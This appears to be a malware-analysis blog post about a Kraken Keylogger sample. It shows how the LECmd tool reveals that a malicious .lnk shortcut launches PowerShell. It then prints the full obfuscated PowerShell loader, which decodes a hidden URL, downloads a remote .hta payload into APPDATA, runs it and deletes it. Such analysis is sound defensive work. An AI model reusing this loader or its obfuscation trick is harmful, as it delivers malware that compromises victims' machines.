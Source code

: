 # LNK Analysis
## LEcmd Tool
In order to analyze an `.lnk` file I use the [LeCMD](https://github.com/EricZimmerman/LECmd) tool. 
By using the tool we can see that the .lnk will execute `PowerShell.exe` alongside with an argument:

![image-3.png](/assets/images/Kraken-Keylogger-pt1/3.png)

## PowerShell Script
Let's breakdown the script:
```PowerShell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ExecutionPolicy UnRestricted $ProgressPreference = 0; 
function nvRClWiAJT($OnUPXhNfGyEh){ 
    $OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')
}; 

function sDjLksFILdkrdR($OnUPXhNfGyEh){ 
    $vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh; 
    for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){ 
        try{
            $zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)
        } 
        catch{
            $zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)
        }
    };
    $zRavFAQNJqOVxb
}; 

$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht'; 
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1]; 
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; 
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing; 
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi); & $cDkdhkGBtl; 
sleep 3; 
rm $cDkdhkGBtl;
```
